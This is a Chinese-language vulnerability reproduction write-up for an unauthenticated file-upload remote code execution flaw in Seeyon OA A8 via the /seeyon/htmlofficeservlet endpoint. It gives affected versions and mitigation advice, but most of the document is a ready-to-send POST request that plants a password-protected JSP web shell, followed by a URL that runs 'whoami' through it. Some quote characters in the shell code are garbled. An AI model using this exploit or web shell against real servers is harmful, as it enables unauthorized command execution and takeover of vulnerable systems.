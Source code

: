 ```yaml
---
title: "致远OA A8 系统远程命令执行漏洞"
id: zhfly3354
---
```


# 致远OA A8 系统远程命令执行漏洞

## 一、漏洞简介

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

## 二、漏洞影响

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看https://www.cnvd.org.cn/webinfo/show/5095

## 三、复现过程

先访问/seeyon/htmlofficeservlet

![image](../img/38eb852e7e84d50b19b9b313089d86d7.png)
出现DBSTEP V3.0 0 21 0 htmoffice operate err
![image](../img/3e51f53a1d9525934db87d1988a858a4.png)
掏出burp进行抓包替换成poc如下
![image](../img/ec5632387038a39f4ed74a34c5094135.png)
提交POST请求包，查看回显如下
![image](../img/c31a6198a80bd1b18e6c898116af2032.png)

### 小结

POC：(POST包)

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1111
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.0-sec.org
Pragma: no-cache `DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV

OPTION=S3WYOSWLBSGr

currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66

CREATEDATE=wUghPB3szB3Xwg66

RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6

originalFileId=wV66

originalCreateDate=wUghPB3szB3Xwg66

FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6

needReadFile=yRWZdAS6

originalCreateDate=wLSGP4oEzLKAz4=iz=66

<%@ page language=“java” import=“java.util.*,[java.io](http://java.io).*” pageEncoding=“UTF-8”%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec©;BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if(“123”.equals(request.getParameter(“pwd”))&&!"".equals(request.getParameter(“cmd”))){out.println("<pre>"+excuteCmd(request.getParameter(“cmd”)) + “</pre>”);}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce` 
```

> `http:/www.0-sec.org/seeyon/test123456.jsp?pwd=123&cmd=cmd+/c+whoami`
> test123456.jsp名称由来为`FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6`解密以后，加密方式不详，可能为oa内置加密方式